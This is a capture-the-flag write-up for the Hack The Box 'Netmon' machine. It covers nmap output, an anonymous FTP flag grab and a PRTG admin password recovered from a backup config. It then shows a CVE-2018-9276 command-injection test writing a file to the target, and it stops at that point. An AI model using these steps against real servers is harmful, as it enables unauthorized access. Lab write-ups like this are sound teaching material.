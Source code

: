 # HTB - Netmon
## OS - Windows

As usual, I started with an nmap scan.

```
$nmap -sC -sV -oN netmon.nmap 10.10.10.152
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-03 09:00 PST
Nmap scan report for 10.10.10.152
Host is up (0.098s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3m48s, deviation: 0s, median: 3m47s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-01-03T17:04:15
|_  start_date: 2021-01-03T17:01:36

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.98 seconds

```

Anonymous ftp is open. On port 80, Paessler PRTG bandwidth monitor is running. Since this box is named netmon, chances are we need to exploit some vulnerability in this service.

I tried anonymous ftp first.

```
$ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:xxxxxxx): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-02-19  11:18PM                 1024 .rnd
02-25-19  09:15PM       <DIR>          inetpub
07-16-16  08:18AM       <DIR>          PerfLogs
02-25-19  09:56PM       <DIR>          Program Files
02-02-19  11:28PM       <DIR>          Program Files (x86)
02-03-19  07:08AM       <DIR>          Users
02-25-19  10:49PM       <DIR>          Windows
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-25-19  10:44PM       <DIR>          Administrator
02-02-19  11:35PM       <DIR>          Public
226 Transfer complete.
ftp> cd Public
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  07:05AM       <DIR>          Documents
07-16-16  08:18AM       <DIR>          Downloads
07-16-16  08:18AM       <DIR>          Music
07-16-16  08:18AM       <DIR>          Pictures
02-02-19  11:35PM                   33 user.txt
07-16-16  08:18AM       <DIR>          Videos
226 Transfer complete.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
WARNING! 1 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
33 bytes received in 0.10 secs (0.3299 kB/s)
```

Getting the user flag was easy. Let's see how to get admin access.

PRTG Configuration.dat was found in Windows directory, but I could not download it. 

When I go to http://10.10.10.152, I see the PRTG Network Monitor home page. There's a login screen. Online search showed that the default credentials are prtgadmin/prtgadmin, but it did not work.

Another search result led to https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/ where it shows that prtg exposes domain accounts and passwords. The config is stored in C:\ProgramData\Paessler\PRTG Network Monitor\.

So back to ftp to check these folders.
If we do "dir -a", we see the "Program data" folder.

I downloaded the three files from that folder C:\ProgramData\Paessler\PRTG Network Monitor\.

```
02-25-19  09:54PM              1189697 PRTG Configuration.dat
02-25-19  09:54PM              1189697 PRTG Configuration.old
07-14-18  02:13AM              1153755 PRTG Configuration.old.bak
```

```

In the backup config, I see the following password:

```
           <dbpassword>
	      <!-- User: prtgadmin -->
	      PrTg@dmin2018
            </dbpassword>

```

That did not work but changing 2018 to 2019 worked.

I was able to login as prtgadmin.

Searching online for vulnerabilities in PRTG, I found this: https://www.cvedetails.com/cve/CVE-2018-9276/
An issue was discovered in PRTG Network Monitor before 18.2.39. An attacker who has access to the PRTG System Administrator web console with administrative privileges can exploit an OS command injection vulnerability (both on the server and on devices) by sending malformed parameters in sensor or notification management scenarios. 


I created a notification to execute an action.

In settings -> Notifications, I see that we can set up notifications.


I wanted to touch a file to see if the vulnerablity could be exploited. The windows equivalent of touch is 
```
type vul > C:\Jan32021.txt"
```

it worked.

```
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-02-19  11:18PM                 1024 .rnd
02-25-19  09:15PM       <DIR>          inetpub
01-03-21  12:50PM                    0 Jan32021.txt
07-16-16  08:18AM       <DIR>          PerfLogs
02-25-19  09:56PM       <DIR>          Program Files
02-02-19  11:28PM       <DIR>          Program Files (x86)
02-03-19  07:08AM       <DIR>          Users
02-25-19  10:49PM       <DIR>          Windows
226 Transfer complete.
```
  
